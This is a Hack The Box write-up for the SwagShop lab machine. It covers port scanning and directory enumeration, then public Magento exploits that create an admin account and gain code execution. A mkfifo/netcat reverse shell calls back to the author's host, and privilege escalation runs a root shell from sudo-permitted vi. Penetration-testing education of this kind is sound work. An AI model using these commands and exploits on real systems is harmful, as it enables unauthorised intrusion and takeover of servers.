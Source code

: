 ```yaml
---
layout: single
title: Swagshop - Hack The Box
excerpt: "SwagShop is one of those easy boxes where you can pop a shell just by using public exploits. It's running a vulnerable Magento CMS on which we can create an admin using an exploit then use another one to get RCE. To privesc I can run vi as root through sudo and I use a builtin functionality of vi that allows users to execute commands from vi so I can get root shell."
date: 2019-09-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-swagshop/swagshop_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - magento
  - vi
  - sudo
---
```


![](/assets/images/htb-writeup-swagshop/swagshop_logo.png)

SwagShop is one of those easy boxes where you can pop a shell just by using public exploits. It's running a vulnerable Magento CMS on which we can create an admin using an exploit then use another one to get RCE. To privesc I can run vi as root through sudo and I use a builtin functionality of vi that allows users to execute commands from vi so I can get root shell.

## Summary

- A Vulnerable Magento CMS 1.9.0 instance is running and we can use a CVE to create an admin account
- We then use another exploit to get RCE and a shell on the box
- `vi` is in the sudoers file for www-data and we can execute a shell as root from withing `vi` with `:!/bin/sh`

## Tools/Blogs used

- Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
- Magento eCommerce - Remote Code Execution

## Detailed steps

### Portscan

```
# nmap -sC -sV -p- 10.10.10.140
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-11 20:52 EDT
Nmap scan report for swagshop.htb (10.10.10.140)
Host is up (0.011s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Website enumeration

The website is running the Magento CMS:

![](/assets/images/htb-writeup-swagshop/webpage.png)

Gobuster finds the directories associated with Magento:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 50 -u http://10.10.10.140
/app (Status: 301)
/downloader (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
=====================================================
2019/05/11 20:57:10 Finished
=====================================================
```

Indexing is on for those directories:

![](/assets/images/htb-writeup-swagshop/indexing.png)

I have access to `/app/etc/local.xml` which contains the encrypted database password and the encryption key.

![](/assets/images/htb-writeup-swagshop/local.png)

I could not find any public tool to decrypt the password and because this is a 20 pts box there's probably some generic CVE exploit online that I can use.

### Getting a shell

A quick look with `searchsploit magento` shows the two interesting exploits:

- Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
- Magento eCommerce - Remote Code Execution

The `Magento eCommerce - Remote Code Execution` exploit creates a new admin account with `forme/forme` as credentials. I just need to modify the target and the exploit and launch it to get an admin account:

```
# python 37997.py
WORKED
Check http://10.10.10.140/index.php/admin with creds form
```

I can now log in to the admin panel:

![](/assets/images/htb-writeup-swagshop/admin1.png)

![](/assets/images/htb-writeup-swagshop/admin2.png)

I'll use the other exploit `Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution` to gain remote code execution. I need to change the `username`, `password`, and `install_date` parameters. The `install_data` is in the `local.xml` I found earlier.

```
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
```

Launching exploit to spawn a reverse shell:

```
python 37811.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 9999 >/tmp/f"

# nc -lvnp 9999
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.140.
Ncat: Connection from 10.10.10.140:44376.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
$ ls
haris
$ cat haris/user.txt
a44887...
```

### Privesc

The privesc is obvious: The `www-data` user can execute `vi` as root. I know I can spawn a shell from within `vi` with `:!/bin/sh` and it'll run as root because of sudo.

```
$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/home$ sudo /usr/bin/vi /var/www/html/pwn -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
c2b087...

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
#
```